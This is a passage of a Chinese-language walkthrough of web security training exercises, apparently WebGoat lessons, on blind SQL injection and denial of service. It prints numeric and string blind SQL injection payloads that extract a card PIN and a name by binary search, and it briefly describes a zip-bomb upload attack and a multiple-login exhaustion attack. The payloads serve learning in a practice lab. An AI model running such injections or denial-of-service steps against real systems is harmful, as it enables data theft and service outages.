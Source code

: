![image]({path}/121.png)


## Blind Numeric SQL Injection（数字型盲注）

```
101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') > 1000 );
```

![image]({path}/122.png)

![image]({path}/123.png)


一直用二分法找到数字是2364

![image]({path}/124.png)

## Blind String SQL Injection（字符串盲注）

```
101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 1, 1) < 'H' );
```

![image]({path}/125.png)

第二个字符：改成2，以此类推。


```
101 AND (SUBSTRING((SELECT name FROM pinsWHERE cc_number='4321432143214321'), 2, 1) < 'H' );
```

![image]({path}/126.png)

答案找到是Jill

# Denial of Service（拒绝服务攻击）
## ZipBomb（压缩包炸弹）
服务器只接受ZIP文件，在上传后提取它们，并与其一起删除，并提供20 MB的临时存储来处理所有请求，尝试执行DOS攻击，消耗所有临时存储与一个请求

简单来说，一直上传低于20M的压缩包，把服务器弄崩溃

## Denial of Service from Multiple Logins(多个用户拒绝服务攻击)
先获取所有帐号

![image]({path}/127.png)

![image]({path}/128.png)

打开三个浏览器进行登录，使用三个不同的用户登录
